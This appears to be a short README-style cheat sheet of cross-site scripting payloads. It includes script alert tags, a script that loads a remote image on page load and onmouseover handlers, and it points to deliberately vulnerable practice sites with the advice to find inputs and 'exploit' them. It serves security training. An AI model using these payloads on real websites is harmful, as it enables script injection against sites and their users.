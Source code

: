 # Alert
```js
<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 
```url
https://xss-game.appspot.com/level1
```
- Level 1
```
<script>alert(1)</script>
```
- Level 2
```
<a onmouseover="alert(1)" href="#">read this!</a>
```
- Level 3
```
```

----------------------------------------------------------
# test 2
```
http://testphp.vulnweb.com/
```
# find POST GET or input and exploit him

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
